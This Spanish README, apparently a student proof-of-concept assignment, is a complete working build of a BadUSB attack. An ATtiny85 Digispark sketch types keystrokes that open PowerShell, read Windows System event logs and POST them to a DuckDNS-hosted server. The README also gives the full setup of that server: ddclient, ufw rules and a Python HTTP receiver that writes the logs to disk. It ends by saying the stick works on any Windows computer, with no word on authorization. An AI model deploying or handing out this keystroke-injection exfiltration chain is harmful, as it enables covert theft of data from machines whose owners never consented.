








# Tarea 998: Prueba de Concepto Attiny85

## Objetivo

El objetivo de esta prueba de concepto es obtener los logs de un sistema Windows y enviarlos a un servidor remoto.

## Desarrollo

### Configuración del servidor remoto

1. El servidor remoto es una maquina virtual con el sistema `Ubuntu Server 24.04.1 LTS`, la cual usa una connexión de tipo Bridge con IP Dinámica, por tanto se debe configurar un servicio de DNS dinámico para poder acceder a la maquina virtual desde cualquier lugar.

    

2. Se Creó un dominio en [DuckDNS](https://www.duckdns.org/) para poder acceder al servidor remoto desde cualquier lugar.

3. Para configurar el servicio de DNS dinámico se debe instalar el paquete `ddclient`, y configurar el archivo `/etc/ddclient.conf` con los siguientes datos:

    ```bash
        # Configuration file for ddclient generated by debconf
        

        protocol=duckdns \
        use=if, if='tu tarjeta de red' \
        server=www.duckdns.org \
        login='tu usuario' \
        password='tu token' \
        tu_dominio.duckdns.org
    ```

    * `tu tarjeta de red`: Es la tarjeta de red que se esta utilizando, se puede obtener con el comando `ifconfig`. Isntalar el paquete `net-tools` si no se tiene instalado: `sudo apt -y install net-tools`.
    * si deseas activar el servicio de DNS dinámico, se debe ejecutar el siguiente comando:

    ```bash
        sudo systemctl enable ddclient
        sudo systemctl start ddclient
    ```

    * Instalar el paquete `ddclient`:

    ```bash
        sudo apt install -y ddclient
    ```

4. Se activó el firewall de Ubuntu y se abrieron los puertos 22 y 8080.

    ```bash
        sudo ufw enable
        sudo ufw allow 22
        sudo ufw allow 8080
    ```

### Configuración de servidor Python

1. Se creó un servidor básico en Python que escucha en el puerto 8080 y recibe los logs de un cliente.

    ```python
    import os
    from http.server import BaseHTTPRequestHandler, HTTPServer

    class LogHandler(BaseHTTPRequestHandler):
        def do_POST(self):
            if self.path == "/logs":
                content_length = int(self.headers['Content-Length'])
                post_data = self.rfile.read(content_length).decode('utf-8')

                log_file_path = os.path.expanduser("~/logs/windows_logs.txt")

                os.makedirs(os.path.dirname(log_file_path), exist_ok=True)

                with open(log_file_path, "a") as log_file:
                    print(post_data)
                    log_file.write(post_data + "\n")

                self.send_response(200)
                self.end_headers()
            else:
                # 405 Method not allowed
                self.send_response(405)
                self.end_headers()

    def run(server_class=HTTPServer, handler_class=LogHandler):
        server_address = ('', 8080)  # Escuchar en el puerto 8080
        httpd = server_class(server_address, handler_class)
        print("Gatovsky Server Listening at 8080")
        httpd.serve_forever()

    if __name__ == "__main__":
        run()
    ```

    * Para ejecutar el servidor se debe ejecutar el siguiente comando:

        ```bash
            python3 server.py
        ```

    * El servidor escucha en el puerto 8080 y guarda los logs en el archivo `~/logs/windows_logs.txt`. Debes crear la carpeta `logs` si no existe.

    Nota: esto se hizo en el `Home` del usuario.

### Configuración de Arduino IDE 2.x

1. En Archivos > Preferencias > URLs de placas adicionales pega el siguiente enlace: `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` esto permitirá instalar las placas de Digistump.

    

2. En Herramientas > Placa > Gestor de tarjetas busca `Digistump AVR Boards` e instala la versión 1.6.7.
    

3. En Herramientas > Placa selecciona `Digispark (Default - 16.5mhz)`.
    

### Configuración del Attiny85

1. Una vez configurado el IDE Usa el siguiente código en un nuevo Sketch.

    ```c
    #include <DigiKeyboard.h>

    void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
    }

    void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(1000); 
    }

    void typeCommand() {
        DigiKeyboard.println("$logs = Get-EventLog -LogName System -Newest 5 | Out-String");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("$utf8logs = [System.Text.Encoding]::UTF8.GetBytes($logs)");
        //DigiKeyboard.sendKeyStroke(KEY_ENTER);
        DigiKeyboard.println("Invoke-RestMethod -Uri http://dominio.duckdns.org:8080/logs -Method POST -Body $utf8logs");
        DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

    void setup() {}

    void loop() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(1000);

    typeCommand();

    // Espera 5 segundos antes de repetir (opcional)
    delay(5000);
    }
    ```

    * Se debe reemplazar `my_dominio.duckdns.org` por el dominio que se creó en DuckDNS.

2. Presiona el boton de `Subir` y espera el mensaje del IDE para insertar el Attiny85.
    

3. Conecta el Attiny85 a un puerto USB y espera a que suba el código.
    

4. Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás los logs en el servidor remoto.




